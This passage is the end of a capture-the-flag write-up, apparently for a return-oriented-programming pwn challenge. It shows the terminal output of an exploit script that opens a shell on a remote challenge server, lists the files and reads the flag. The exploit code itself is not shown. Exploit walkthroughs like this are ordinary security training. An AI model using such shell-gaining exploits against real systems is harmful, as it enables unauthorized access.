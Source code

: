 ```
└─$ python2 exploit.py
[+] Opening connection to 13.127.20.4 on port 1234: Done
[*] Switching to interactive mode
Pop Shell Buddy
Hey wait who are you: $ 
$ ls -al
total 28
drwxr-x--- 1 root pwnuser  4096 Jan 29 16:19 .
drwxr-xr-x 1 root root     4096 Jan 29 16:20 ..
-rwxr-x--- 1 root pwnuser 16264 Jan 29 15:18 chall
-rwxr-x--- 1 root pwnuser    21 Jan 29 15:19 flag.txt
$ cat flag.txt
KYC{R0P_g0t_ch@1neD}
$
```

We get the flag 


And we're done

<br> <br>
[Back To Home](../../index.md)
</br>
